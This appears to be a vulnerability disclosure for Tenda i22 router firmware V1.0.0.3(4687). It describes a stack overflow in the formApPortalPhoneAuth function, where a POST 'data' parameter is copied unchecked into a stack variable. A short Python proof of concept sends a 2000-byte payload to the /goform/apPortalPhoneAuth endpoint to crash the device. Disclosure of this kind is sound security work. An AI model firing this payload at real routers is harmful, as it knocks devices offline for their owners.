 ## Overview

- Manufacturer's website: https://www.tenda.com.cn
- Firmware download website: https://www.tenda.com.cn/download/detail-2747.html

## Affected version

i22 V1.0.0.3(4687)

## Vulnerability details

In the i22 V1.0.0.3(4687) firmware has a stack overflow vulnerability in the `formApPortalPhoneAuth` function. This function accepts the `data` parameter from a POST request. The parameter is later copied by `strcpy` or `sprintf` to a variable on the stack (`v19` ) , causing a stack overflow.

![image1](image/1.png)

![2](image/2.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.3"
url = "http://" + ip + "/goform/apPortalPhoneAuth"
payload = b"a"*2000

data = {
    "data": payload
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)
